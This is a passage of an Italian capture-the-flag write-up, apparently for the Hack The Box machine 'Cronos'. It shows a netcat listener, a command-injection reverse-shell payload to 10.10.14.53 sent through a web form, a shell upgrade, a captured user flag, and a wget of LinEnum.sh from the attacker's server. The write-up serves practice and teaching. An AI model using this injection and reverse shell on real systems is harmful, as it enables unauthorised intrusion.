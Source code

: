 # EXPLOITATION

 Per ottenere una shell ci mettiamo in ascolto con nc sulla nostra macchina 
 
 ``` bash
┌──(root㉿kali)-[/home/kali/htb/cronos]
└─# nc -lnvp 443              
listening on [any] 443 ...
```

Aggiungiamo nella prompt dei comandi
presente nella pagina "welcome.php" il codice di una revshell che punti 
al nostro ip e alla porta alla quale siamo in ascolto 

" & bash -c 'bash -i >& /dev/tcp/10.10.14.53/443 0>&1'"

Otteniamo cosi una shell

con which python3 sopriamo che è presete python3 possiamo eseguire un update della shell
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'


^Z
stty raw -echo; fg
export SHELL=bash
export TERM=xterm-256color
```
Abbiamo una shell interattiva e stabile
www-data@cronos:/var/www/admin$ 

Flag users
www-data@cronos:/home/noulis$ cat user.txt 
c56059c3fc533f65df0e509cb3b52468
---------------------------------------------------------------------
# PRIVESC

Siamo dentro una macchina linux quindi ci scarichiamo LinEnum.sh dalla nostra macchina 
avvierò un server web Python3 nella mia directory dove è contenuto LinEnum.sh

```bash
┌──(root㉿kali)-[/home/kali/tool/PrivEsc/LinEnum]
└─# python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
e lo scarico sulla macchina target wget 

```bash
www-data@cronos:/tmp$ wget 10.10.14.53/LinEnum.sh                                                                                            
--2023-05-19 10:51:13--  http://10.10.14.53/LinEnum.sh                                                                                       
Connecting to 10.10.14.53:80... connected.                                                                                                   
HTTP request sent, awaiting response... 200 OK                                                                                               
Length: 46631 (46K) [text/x-sh]                                                                                                              
Saving to: 'LinEnum.sh'                                                                                                                      
                                                                                                                                             
LinEnum.sh          100%[===================>]  45.54K  --.-KB/s    in 0.1s    

2023-05-19 10:51:13 (398 KB/s) - 'LinEnum.sh' saved [46631/46631]
```
